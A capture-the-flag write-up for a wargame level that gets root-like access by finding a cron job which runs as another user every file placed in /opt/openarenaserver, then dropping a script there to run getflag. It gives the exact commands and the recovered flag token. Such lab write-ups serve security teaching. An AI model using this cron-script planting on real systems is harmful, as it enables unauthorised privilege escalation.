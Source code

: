 ## level05
1. Nothing is found first, and we try to find any clue. Let's check list of environmental variables:
``` Bash
/usr/bin/env
```
2. There is interesting line here: `MAIL=/var/mail/level05`. This file contains
``` Bash
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
3. `*/2 * * * *` looks like format of [`crontab` utility](https://www.tutorialspoint.com/unix_commands/crontab.htm) for timed launch of programs. According to line above, shell script /usr/sbin/openarenaserver lauches every 2 minutes
4. Script `/usr/sbin/openarenaserver` contains
``` Bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
5. Script grabs all files from `/opt/openarenaserver/`, executes them and deletes afterwards
6. Let's create file `/opt/openarenaserver/flag05`, that will execute getflag when launched and write output to temporal file, and chane file permissions
``` Bash
echo "getflag > /tmp/flag05" > /opt/openarenaserver/flag05
chmod 777 /opt/openarenaserver/flag05
```
7. Now wait for around 2 minutes. Than reveal in file /tmp/flag05 flag for level06 user: **viuaaale9huek52boumoomioc**

### [< PREVIOUS LEVEL](../../level04/Resources/stages.md) | [NEXT LEVEL >](../../level06/Resources/stages.md)
### [MAIN MENU](../../README.md)
